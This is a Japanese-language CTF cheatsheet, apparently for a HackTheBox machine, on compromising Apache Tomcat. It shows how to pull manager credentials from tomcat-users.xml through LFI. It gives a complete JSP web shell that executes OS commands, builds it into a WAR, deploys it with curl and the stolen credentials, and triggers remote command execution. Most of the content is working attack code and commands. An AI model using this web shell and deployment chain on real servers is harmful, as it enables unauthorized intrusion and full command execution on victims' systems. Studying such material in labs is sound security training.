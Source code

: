 ```yaml
---
layout: post
title: "tomcat"
published : true
permalink: /ctf/cheatsheets/common/tomcat
tags: [CTF, Common, cheatsheet, tomcat]
---
```

## Tomcatマネージャーアプリケーションの発見
tcp/8080でオープンしていることが多い

## 資格情報の取得
LFIなどを利用して"tomcat-users.xml"を探す。ファイルパスは一例
```sh
/usr/share/tomcat9/etc/tomcat-users.xml

(SNIP...)
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
(SNIP...)
```
## web shellによるRCE
### Create file. [index.jsp]
```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
    String s = null;
    try {
      Process p = Runtime.getRuntime().exec(cmd,null,null);
      BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
      while((s = sI.readLine()) != null) {
        output += s+"</br>";
      }
    }  catch(IOException e) {   e.printStackTrace();}
   }
%>
<pre><%=output %></pre>
```
   
### warの生成
```sh
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
webshell.war is created
```
### Upload
```sh
curl --upload-file webshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/webshell"
```

### RCE
```sh
http://megahosting.htb:8080/webshell/index.jsp?cmd=id
```
